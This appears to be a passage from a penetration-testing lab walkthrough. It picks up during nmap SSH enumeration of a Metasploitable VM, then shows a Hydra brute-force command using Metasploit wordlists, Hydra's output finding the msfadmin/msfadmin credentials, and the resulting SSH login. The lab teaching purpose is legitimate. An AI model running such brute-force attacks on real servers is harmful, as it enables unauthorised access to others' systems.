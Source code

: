 ```
|       hmac-sha2-512
|       hmac-sha2-512-96
|       hmac-sha1-etm@openssh.com
|       hmac-sha1-96-etm@openssh.com
|   compression_algorithms: (2)
|       none
|       zlib@openssh.com
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

```bash
# Step 2: Try common username combinations
hydra -L /usr/share/wordlists/metasploit/unix_users.txt \
      -P /usr/share/wordlists/metasploit/unix_passwords.txt \
      ssh://192.168.1.200
```

**Hydra SSH brute force output:**
```
Hydra v9.4 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-01-15 10:46:15
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 1009 login tries (l:109/p:109), ~64 tries per task
[DATA] attacking ssh://192.168.1.200:22/
[22][ssh] host: 192.168.1.200   login: msfadmin   password: msfadmin
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2024-01-15 10:46:32
```

**Manual SSH connection:**

```bash
# If credentials are found
ssh msfadmin@192.168.1.200
```

**SSH login output:**
```
The authenticity of host '192.168.1.200 (192.168.1.200)' can't be established.
ECDSA key fingerprint is SHA256:4f:88:aa:8b:59:ce:9c:6b:b7:aa:5c:67:24:d3:9a:39.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '192.168.1.200' (ECDSA) to the list of known hosts.
msfadmin@192.168.1.200's password: 
Linux metasploitable 2.6.24-16-server #1 SMP Thu Apr 10 13:58:00 UTC 2008 i686

The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

To access official Ubuntu documentation, please visit:
http://help.ubuntu.com/

msfadmin@metasploitable:~$ 
```
